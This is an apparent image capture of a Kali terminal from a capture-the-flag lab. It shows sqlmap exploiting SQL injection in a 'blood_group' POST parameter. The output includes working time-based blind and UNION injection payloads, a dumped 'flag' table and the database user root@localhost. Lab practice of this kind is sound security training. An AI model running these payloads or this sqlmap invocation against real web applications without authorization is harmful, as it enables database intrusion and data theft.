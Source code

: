 ```

[22:14:59] [INFO] table 'blood.flag' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.60.177/dump/blood/flag.csv'
[22:14:59] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.60.177'

[*] ending @ 22:14:59 /2023-02-04/

┌──(kali㉿kali)-[~/nappy/brutus]
└─$ sqlmap -r req.txt -p blood_group -D blood --current-user
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:16:12 /2023-02-04/

[22:16:12] [INFO] parsing HTTP request from 'req.txt'
[22:16:12] [INFO] resuming back-end DBMS 'mysql' 
[22:16:12] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=A+' AND (SELECT 2957 FROM (SELECT(SLEEP(5)))lpcx) AND 'MmpH'='MmpH

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=A+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71787a7871,0x56626a6a7256627368576e504570586a707552505a51447064644a656a6170594762497163625a66,0x7176707671),NULL,NULL-- -
---
[22:16:13] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[22:16:13] [INFO] fetching current user
[22:16:13] [WARNING] reflective value(s) found and filtering out
current user: 'root@localhost'
[22:16:13] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.60.177'

[*] ending @ 22:16:13 /2023-02-04/

```
